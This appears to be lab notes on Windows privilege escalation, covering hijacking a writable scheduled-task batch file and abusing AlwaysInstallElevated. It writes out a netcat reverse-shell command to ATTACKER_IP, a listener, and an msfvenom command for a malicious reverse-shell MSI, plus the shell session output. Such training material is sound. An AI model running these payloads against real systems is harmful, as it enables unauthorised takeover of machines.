

Quick Wins
Quick Wins
A) Scheduled Tasks:
Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.
Scheduled tasks can be listed from the command line using the schtasks command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:
To List All Tasks:

Or
Using Powershell
Example:
Get-ScheduledTask
Get-ScheduledTask -TaskName "SystemScan"
Get-ScheduledTask -TaskPath "\UpdateTasks\*"
Note: TaskPath search is possible in powershell only
For Details (Select a Task Name - Say vulntask):
Command Prompt
C:\>schtasks /query /tn vulntask /fo list /v
Output:
Folder: \
HostName: THM-PC1
TaskName: \vulntask
Task To Run: C:\tasks\schtask.bat
Run As User: taskusr1
You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.
If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use icacls:
Command Prompt
C:\> icacls c:\tasks\schtask.bat
Output:
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Administrators:(I)(F)
BUILTIN\Users:(I)(F)
As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools. Let's change the bat file to spawn a reverse shell:
Or
We can use accesschk to check the file (Another room's example)
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1

Common Solution once we know we have access:
Command Prompt
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
Note: Echo in Windows takes no quotes. (If we give quotes it literally is pushed into the file contents)
We then start a listener on the attacker machine on the same port we indicated on our reverse shell:
nc -lvp 4444
The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:
Command Prompt
C:\> schtasks /run /tn vulntask
And you will receive the reverse shell with taskusr1 privileges as expected:
Kali Linux
Output:
user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
wprivesc1\taskusr1
B) AlwaysInstallElevated:
Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.
Note: The AlwaysInstallElevated method won't work on THM room's machine and it's included as information only.
This method requires two registry values to be set. You can query these from the command line using the commands below.
Command Prompt
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using msfvenom, as seen below:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f msi -o malicious.msi
As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:
Command Prompt
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
END